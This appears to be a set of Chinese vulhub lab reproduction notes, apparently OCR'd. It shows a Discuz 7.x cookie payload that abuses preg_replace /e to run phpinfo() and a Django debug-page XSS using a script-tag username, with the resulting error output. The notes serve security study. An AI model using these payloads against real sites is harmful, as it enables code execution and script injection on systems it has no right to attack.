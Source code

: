 # [Discuz 7.x/6.x 全局变量防御绕过导致代码执行](https://vulhub.org/#/environments/discuz/wooyun-2010-080723/)

## 漏洞复现

安装成功后，直接找一个已存在的帖子，向其发送数据包，并在

`Cookie`中替换：
```
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();：
```


# [Discuz!X ≤3.4 任意文件删除漏洞](https://vulhub.org/#/environments/discuz/x3.4-arbitrary-file-deletion/)





# [Django debug page XSS漏洞分析](https://vulhub.org/#/environments/django/CVE-2017-12794/)

## 漏洞复现

访问
```
http://your-ip:8000/create_user/?username=<script>alert(1)</script>
```

创建一个用户，成功；再次访问
```
http://your-ip:8000/create_user/?username=<script>alert(1)</script>
```
触发异常：

可见，Postgres抛出的异常为
```
duplicate key value violates unique constraint "xss_user_username_key"
DETAIL:  Key (username)=(<script>alert(1)</script>) already exists.
```

这个异常被拼接进T
```
he above exception ({{ frame.exc_cause }}) was the direct cause of the following exception
```
最后触发XSS。


# **[Django < 2.0.8 任意URL跳转漏洞（CVE-2018-14574）](https://github.com/vulhub/vulhub/blob/master/django/CVE-2018-14574/README.zh-cn.md)**
